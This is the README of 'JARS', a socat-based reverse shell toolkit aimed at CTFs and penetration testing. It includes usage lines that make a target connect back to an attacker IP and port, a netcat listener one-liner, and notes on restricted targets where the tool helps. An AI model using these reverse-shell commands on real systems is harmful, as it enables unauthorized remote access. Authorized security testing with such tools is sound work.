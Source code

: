# Just Another Reverse Shell (JARS)

![JARS Banner](https://img.shields.io/badge/Reverse%20Shell-Interactive%20and%20Simple-blueviolet?style=for-the-badge&logo=gnu-bash)

A minimal, pretty, and effective reverse shell toolkit using `socat` for both shell and listener. Perfect for CTFs, pentesting, and quick remote access scenarios.

---

## 🚀 Purpose

**JARS** provides a clean and reliable way to establish reverse shells using Bash and socat. It includes:
- `revShell.sh`: Initiates a reverse shell to a remote attacker.
- `revListener.sh`: Sets up a listener to catch incoming reverse shells, and can be used to enhance the shell experience (autocompletion, arrow keys, etc.) on servers with limited command support. 

---

## 🛠️ Requirements

- [socat](http://www.dest-unreach.org/socat/)
- Bash (Linux/macOS/WSL)

Install socat (Debian/Ubuntu):
```bash
sudo apt update && sudo apt install socat
```

---

## 📦 Files

- **revShell.sh**  
  _Usage:_
  ```bash
  ./revShell.sh [Remote Attacker IP] [Remote Attacker PORT]
  ```
  _Example:_
  ```bash
  ./revShell.sh 10.10.14.1 4444
  ```

- **revListener.sh**  
  _Usage:_
  ```bash
  ./revListener.sh [Listener PORT]
  ```
  _Example:_
  ```bash
  ./revListener.sh 4444
  ```

---

## ✨ Features
- Clean output and usage instructions
- Uses `socat` for stable, interactive shells
- Minimal dependencies
- Easy to use and modify

---

## ❓ When to Use JARS
This tool is especially useful when the target system:
- Does **not** have Python installed
- Has Python, but `pty` cannot be imported (so you can't upgrade shells easily)
- Lacks typical tab completion or cannot use `stty` to fix the shell
- Does **not** have a fully functional `nc` (Netcat) command, or only provides a limited client (e.g., BusyBox's older versions)
- Presents other restrictions that prevent you from getting a stable, interactive shell

By using socat, JARS helps you get a more interactive and reliable shell in these restrictive environments.

---

## 💡 Tips
- For Windows, use WSL or a Linux VM to run these scripts.
- Make scripts executable: `chmod +x revShell.sh revListener.sh`
- Always get proper authorization before using reverse shells!
- You can also use a simple Netcat listener as an alternative:
  ```bash
  nc -lnvp [PORT]
  ```
  However, note that Netcat listeners may not provide as smooth an experience (e.g., autocompletion, arrow keys) as the provided socat-based listener.

---

## ⚠️ Disclaimer
This project is for educational and authorized penetration testing purposes only. Do **not** use it on systems you do not own or have explicit permission to test.

---

## 📚 References
- [socat documentation](http://www.dest-unreach.org/socat/doc/socat.html)
- [Reverse Shell Cheat Sheet](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

---

Enjoy your interactive shells! 🐚✨
